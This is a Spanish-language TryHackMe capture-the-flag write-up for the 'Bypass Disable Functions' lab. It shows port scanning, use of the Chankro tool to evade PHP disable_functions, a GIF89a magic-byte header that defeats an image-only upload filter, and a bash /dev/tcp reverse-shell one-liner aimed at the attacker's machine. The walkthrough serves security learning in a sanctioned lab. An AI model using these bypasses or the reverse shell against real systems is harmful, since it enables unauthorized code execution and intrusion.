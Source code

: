 ```yaml
---
title: "Bypass Disable Functions - Try Hack Me"
layout: single
excerpt:
show_date: true
classes: wide
header:
  teaser: "https://github.com/Wiinsad/winsad/blob/master/assets/images/machines/THM/BypassDisableFunctions/data/mail.png?raw=true"
  teaser_home_page: true
  icon: "https://github.com/Wiinsad/Wiinsad.github.io/blob/master/assets/images/icons/TryHackMe.png?raw=true"
categories:
  - Writeup
  - TryHackMe
tags:
  - PHP
  - Bypassing
---
```


<p align="center">
<img src="https://github.com/Wiinsad/Wiinsad.github.io/blob/master/assets/images/machines/THM/BypassDisableFunctions/data/ChankroTHM.png?raw=true">
</p>

La máquina **Bypass Disable Functions** es una máquina virtual vulnerable de la plataforma **Try Hack Me** con un nivel de dificultad **Info** desarrollada por **stuxnet** y publicada **23 de junio del 2021** cuenta con un sistema operativo **Linux**.

**URL:** [Bypass Disable Functions - TryHackMe](https://tryhackme.com/jr/bypassdisablefunctions)


## Port Scan

  Para empezar, hice un escaneo con la herramienta **Nmap** para encontrar los puertos abiertos disponibles en la máquina con **[Ip:10.10.71.174]** utilizando los parámetros:

  - **-p-:**    Escaneo a toda la gama de puertos (65536).
  - **-n:**     No hacen la resolución del DNS.
  - **-T5:**    El parámetro más agresivo y ruidoso pero más rápido para hacer una exploración rápida.
  - **-v:**     Aumenta el nivel de los mensajes verbose.
  - **--open:** Muestra sólo los puertos con un estatus abierto.
  - **-oG:**    Guarda la el output en formato Grepeable.

  <p align="center">
  <img src="https://raw.githubusercontent.com/Wiinsad/winsad/master/assets/images/machines/THM/BypassDisableFunctions/scan/scanPort.png">
  </p>


  Una vez que hicimos el escaneo de puertos con la herramienta **ExtractPorts   **, vemos que los puertos que destacaron en este caso fueron **22 y 80**:  

  <p align="center">
  <img src="https://raw.githubusercontent.com/Wiinsad/winsad/master/assets/images/machines/THM/BypassDisableFunctions/scan/Ports.png">
  </p>


  Una vez identificados los puertos abiertos, realizaremos un escaneo de versiones y servicios de estos puertos con la herramienta nmap configurando los siguientes parámetros:

  - **-sC:** Script de enumeración básica de sondeo en puertos y servicios alojados.
  - **-sV:** Detección de versiones en servicios alojados en puertos.
  - **-p :** Puertos a inspeccionar.
  - **-oN:** Formatos de Nmap en los que se guardará el archivo.

  <p align="center">
  <img src="https://raw.githubusercontent.com/Wiinsad/winsad/master/assets/images/machines/THM/BypassDisableFunctions/scan/PortServ.png">
  </p>

  Ya que el escaneo de versiones y servicios no mostró demasiado empezamos a enumerar un poco mas a nivel web mediante un navegador ya que cuenta con un servicio **http** por el puerto **80** y al entrar pude ver lo siguiente:

  <p align="center">
  <img src="https://raw.githubusercontent.com/Wiinsad/winsad/master/assets/images/machines/THM/BypassDisableFunctions/scan/web.png">
  </p>

  Enumerando la pagina podemos ver que existe una ruta donde es posible subir archivos.

  <p align="center">
  <img src="https://raw.githubusercontent.com/Wiinsad/winsad/master/assets/images/machines/THM/BypassDisableFunctions/scan/arc.png">
  </p>

## Lateral Movement

  Al enumerar la web con la herramienta de **wappalyzer** se puede ver que la web tiene como lenguaje de programación **PHP**

  <p align="center">
  <img src="https://github.com/Wiinsad/Wiinsad.github.io/blob/master/assets/images/machines/THM/BypassDisableFunctions/scan/wap.png?raw=true">
  </p>

  Con esto en mete podemos ver que el archivo **phpinfo.php** esta disponible, esté archivo sirve para poder ver información acerca de como que tanto nos interpretara un archivo **php** en la web:

  <p align="center">
  <img src="https://raw.githubusercontent.com/Wiinsad/winsad/master/assets/images/machines/THM/BypassDisableFunctions/scan/phpi.png">
  </p>


  Viendo la información que nos brinda el **phpinfo** podemos ver un apartado llamado **disable_funtions** y en ella están seteadas muchas variables criticas como:
  - exec
  - passthru
  - shell_exec
  - system
  - proc_open
  - popen
  - curl_exec
  - curl_multi_exec

  Al podemos ver que estamos muy limitados a la hora de subir un archivo **php** el cual contenga código malicioso a nuestro beneficio pero investigando y gracias a la información que nos brinda esta maquina podemos hacer uso de la herramienta **[Chankro](https://github.com/TarlogicSecurity/Chankro)**.

  Esta herramienta nos permite ejecutar comando mediante la función **mail()** y **putenv()**. Una explicación de lo que hace es a bajo nivel lo explican bien en este **[articulo](https://www.tarlogic.com/blog/evadir-disable_functions-open_basedir/)**.

  Para probar si la herramienta funciona vamos a ejecutar un **whoami** y depositar lo en la ruta absoluta de la web, la cual se alojan en **/var/www/html/fa5fba5f5a39d27d8bb7fe5f518e00db/** esto se sabe ya que ene le **phpinfo** se puede ver la ruta en donde esta alojada la web.

  <p align="center">
  <img src="https://raw.githubusercontent.com/Wiinsad/winsad/master/assets/images/machines/THM/BypassDisableFunctions/intrusion/info.png">
  </p>

  Para hacer esto voy a crear un archivo llamado **command.sh** y con el siguiente contenido:

  ```bash
  #!/bin/bash

  whoami > /var/www/html/fa5fba5f5a39d27d8bb7fe5f518e00db/winsad.txt

  ```
  Ya creado esto hare uso de la herramienta **Chankro** con los siguientes parámetros:

  - **--arch 64**             (Architecture 32 or 64.)  
  - **--input command.sh**    (Binario a ejecutar.)
  - **--output winsad.php**   (Nombre del PHP a crear.)
  - **--path /var/www/html/fa5fba5f5a39d27d8bb7fe5f518e00db**  (Ruta a donde se aloja el binario creado.)

  <p align="center">
  <img src="https://raw.githubusercontent.com/Wiinsad/winsad/master/assets/images/machines/THM/BypassDisableFunctions/intrusion/cha1.png">
  </p>

  Una vez creado la herramienta nos crea el  archivo **php** ire a la web y lo subo.

  <p align="center">
  <img src="https://raw.githubusercontent.com/Wiinsad/winsad/master/assets/images/machines/THM/BypassDisableFunctions/intrusion/web1.png">
  </p>

  Cuando lo subo puedo ver que me marca error y eso sucede ya que la pagina tiene una validación la cual solo permite subir imágenes y para **bypassear** esta validación puedo agregar a el archivo **php** el **magic number** de un **GIF** el cual tiene un valor ```GIF89a;```:

  <p align="center">
  <img src="https://raw.githubusercontent.com/Wiinsad/winsad/master/assets/images/machines/THM/BypassDisableFunctions/intrusion/cha2.png">
  </p>

  Agregándole esta cabecera estamos indicando que los primero bits del archivo se identifica como un **GIF** y si hago un **file** puedo ver que efectivamente toma que el archivo es un **GIF** aunque tenga extension **php**

  <p align="center">
  <img src="https://raw.githubusercontent.com/Wiinsad/winsad/master/assets/images/machines/THM/BypassDisableFunctions/intrusion/file.png">
  </p>

  Si volvemos a subir el archivo podemos ver que ahora si nos permitió subir el archivo:

  <p align="center">
  <img src="https://raw.githubusercontent.com/Wiinsad/winsad/master/assets/images/machines/THM/BypassDisableFunctions/intrusion/web2.png">
  </p>

  Si buscamos en la web podemos ver que existe un subdirectorio **uploads** en donde se almacenan los archivos que subimos:

  <p align="center">
  <img src="https://raw.githubusercontent.com/Wiinsad/winsad/master/assets/images/machines/THM/BypassDisableFunctions/intrusion/web3.png">
  </p>

  Si entramos a nuestro archivo podemos ver que el código en php lo interpreta y según las instrucciones a la hora de interpretarlo debería crear nuestro archivo en la raíz el cual indicamos que se llama **"winsad.txt"** y si vamos vemos que efectivamente el archivo existe:

  <p align="center">
  <img src="https://raw.githubusercontent.com/Wiinsad/winsad/master/assets/images/machines/THM/BypassDisableFunctions/intrusion/web4.png">
  </p>

## Gaining Access

  Ahora que podemos ver que se pueden ejecutar comando a nivel de sistema modificare el archivo **command.sh** y agregare código que cuando se ejecute me entable una revershell a mi maquina por el puerto 443:

  ```bash
  #!/bin/bash

  bash -c 'bash -i >& /dev/tcp/[My IP]/443 0>&1'
  ```

  Con esto en mente y ya modificado el archivo **command.sh** vuelvo a crear el archivo **winsad.php** con **Chankro** y ya creado vuelvo a agregar la cabecera **'GIF89a;'** y a subir el archivo.


  Ya que volví a subir el **php** y yendo a la ruta donde esta alojado **winsad.php** puedo ver que me interpreta el código y me otorga la **shell**:

  <p align="center">
  <img src="https://raw.githubusercontent.com/Wiinsad/winsad/master/assets/images/machines/THM/BypassDisableFunctions/intrusion/shell.png">
  </p>

  Ya dentro de la maquina podemos ir la directorio del usuario **s4vi** y visualizar la flag.

  <p align="center">
  <img src="https://raw.githubusercontent.com/Wiinsad/winsad/master/assets/images/machines/THM/BypassDisableFunctions/intrusion/flag.png">
  </p>
